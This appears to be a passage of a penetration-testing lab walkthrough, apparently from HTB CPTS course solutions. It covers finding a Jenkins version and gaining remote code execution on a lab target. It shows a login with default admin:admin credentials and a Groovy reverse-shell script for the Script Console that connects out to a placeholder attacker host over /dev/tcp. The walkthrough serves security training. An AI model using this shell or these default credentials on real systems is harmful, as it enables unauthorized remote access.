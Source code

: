 - `STMIP jenkins.inlanefreight.local`

Students then need to navigate to `http://jenkins.inlanefreight.local:8000` and login with the credentials `admin:admin`:

![[HTB Solutions/CPTS/z. images/77f9c52e430281a80f33ed9f31a1120f_MD5.jpg]]

Students will find out the version of `Jenkins` at the right-most bottom, which is `2.303.1` in this case:

![[HTB Solutions/CPTS/z. images/b3e7dfecf8971e968f56bf97306c7529_MD5.jpg]]

Answer: `2.303.1`

# Attacking Jenkins

## Question 1

### "Attack the Jenkins target and gain remote code execution. Submit the contents of the flag.txt file in the /var/lib/jenkins3 directory"

After spawning the target machine, students need to make sure that the following `VHost` entry is present in `/etc/hosts`:

- `STMIP jenkins.inlanefreight.local`

Students then need to navigate to `http://jenkins.inlanefreight.local:8000` and login with the credentials `admin:admin`:

![[HTB Solutions/CPTS/z. images/77f9c52e430281a80f33ed9f31a1120f_MD5.jpg]]

Once signed in, students need to click on "Manage Jenkins":

![[HTB Solutions/CPTS/z. images/0d7d61284c76168c4650ed32d4bfaf9e_MD5.jpg]]

Students need to scroll down until they find "Script Console" and click on it:

![[HTB Solutions/CPTS/z. images/ea99c08478a50668d0c28dda832cc198_MD5.jpg]]

Students then need insert the following `Groovy script` reverse-shell (however, they still should not click on "Run", yet):

Code: groovy

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/PWNIP/PWNPO;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

![[HTB Solutions/CPTS/z. images/e21ae6e4bf028f8d58d016e3f53fd2f2_MD5.jpg]]
